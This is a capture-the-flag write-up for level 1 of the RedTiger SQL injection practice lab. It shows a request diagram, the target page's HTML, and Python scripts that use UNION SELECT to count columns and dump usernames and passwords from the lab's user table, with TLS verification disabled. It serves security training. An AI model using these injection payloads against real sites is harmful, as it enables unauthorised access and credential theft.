 ================================================================================================================
[redtiger] level1
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="level1.php?cat=1 union select 1,2,username,password from level1_users",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================

- Target: Get the login for the user Hornoxe 
- Hint: You really need one? omg -_- 
- Tablename: level1_users

.. code-block:: html

    <br>Category: <a href="?cat=1">1</a>
    This category does not exist! 
    <form method="post">
    Username: <input type="text" name="user">
    Password: <input type="text" name="password">
    <input type="submit" name="login" value="Login">
    </form>
    

|

Column Length
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level1.php"

    n = 0
    ret = ''
    for l in range(20):
        params = {
            "cat": "1 union select %s from level1_users" % str(n)
        }
        print params.values()[0]
        n = str(n) + "," + str(l+1)
        r = requests.get(url, params=params, verify=False)
        print r.content

|

Data Extract
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level1.php"

    params = {
        "cat": "1 union select 1,2,username,password from level1_users"
    }

    r = requests.get(url, params=params, verify=False)
    print r.content

